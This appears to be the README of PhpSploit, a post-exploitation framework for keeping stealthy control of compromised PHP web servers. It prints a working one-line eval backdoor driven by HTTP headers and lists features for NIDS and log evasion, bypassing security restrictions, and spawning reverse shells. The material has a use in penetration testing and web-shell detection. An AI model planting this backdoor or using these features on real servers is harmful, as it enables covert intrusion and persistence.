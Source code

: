 ### PhpSploit: *Advanced post-exploitation framework* ###

PhpSploit is a **remote control** framework, aiming to provide a **stealth**
interactive shell-like connection over HTTP between client and web server.
It is a post-exploitation tool capable to maintain access to a
compromised web server for **privilege escalation** purposes.

![][picture]

---------------------------------------------------------------------
#### Overview ####

The obfuscated communication is accomplished using HTTP headers under
standard client requests and web server's relative responses, tunneled
through a tiny **polymorphic backdoor**:

    <? @eval($_SERVER['HTTP_PHPSPL01T']) ?>

---------------------------------------------------------------------
#### Features ####

* **Efficient**: More than 20 plugins to automate post-exploitation tasks
    - Run commands and browse filesystem, bypassing PHP security restrictions
    - Upload/Download files between client and target
    - Edit remote files through local text editor
    - Run SQL console on target system
    - Spawn reverse TCP shells

* **Stealth**: The framework is made by paranoids, for paranoids
    - Nearly invisible by log analysis and NIDS signature detection
    - Safe-mode and common PHP security restrictions bypass
    - Communications are hidden in HTTP Headers
    - Loaded payloads are obfuscated to **bypass NIDS**
    - HTTP/HTTPS Proxy support

* **Convenient**: A robust interface with many crucial features
    - Powerful interface with completion and multi-command support
    - Session saving/loading feature, with persistent history
    - Multi-request support for large payloads (such as uploads)
    - Provides a powerful, highly configurable settings engine
    - Each setting, such as user-agent has a polymorphic mode
    - Customisable environment variables for plugin interaction
    - Provides a complete plugin development API


[picture]: data/img/phpsploit-demo.png
